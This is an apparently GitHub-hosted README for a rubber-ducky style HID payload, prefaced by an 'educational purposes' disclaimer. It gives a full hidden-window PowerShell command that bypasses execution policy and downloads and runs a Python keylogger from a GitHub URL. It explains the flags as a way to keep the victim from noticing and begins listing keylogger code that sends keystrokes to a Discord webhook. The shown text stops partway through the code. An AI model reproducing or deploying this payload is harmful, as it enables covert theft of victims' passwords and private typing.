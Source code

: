 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# Dependencies

- Windows
- Python

# How it Works:

## The rubber ducky script
When the grabber.dd runs it opens a powershell terminal window and enters this string:

```powershell
powershell -w h -NoP -NonI -Exec Bypass -c "cd $env:USERPROFILE\Documents ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile $Env:USERPROFILE\Documents\logger.py ; py -m pip install discordwebhook pynput ; Python logger.py <Your discord webhook here>"
```

### Flags used:

The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

(copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

### Commands ran:

1. First we run ```cd $env:USERPROFILE\Documents``` to enter the users Documents folder where we will be downloading our keylogger
1 . Then we use ```iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile $Env:USERPROFILE\Documents\logger.py``` to download the ```logger.py``` script and place it in the Documents folder using -OutFile
3. Before running the python script we use ```py -m pip install discordwebhook pynput``` to download the needed python libraries (if these libraries are found pip skips this step and proceeds)
4. And last we do ```Python logger.py <Your discord webhook here>``` to run the python script and using our webhook as an argument which the python script uses
 
## The keylogger script

The logger script starts by importing the needed libraries which are downloaded in the previous step (some libraries are included by default in python)
```python
from pynput.keyboard import Key, Listener
import time
import threading
from discordwebhook import Discord
import sys
```
Now we tell python what our webhook is by using ```sys.argv[1]``` to take our argument (which we set to our webhook) and put it into the variable called ```hook_url``` Then we tell the discord library that our webhook is the ```hook_url``` which in turn is stored in the ```discord``` variable
```python
hook_url = sys.argv[1]
discord = Discord(url=hook_url)
```
After that is set up we need to define some variables and lists that the logger will use. The ```word``` list is used 
```python
word = []
last_pressed = time.time()
idle_message = False
```

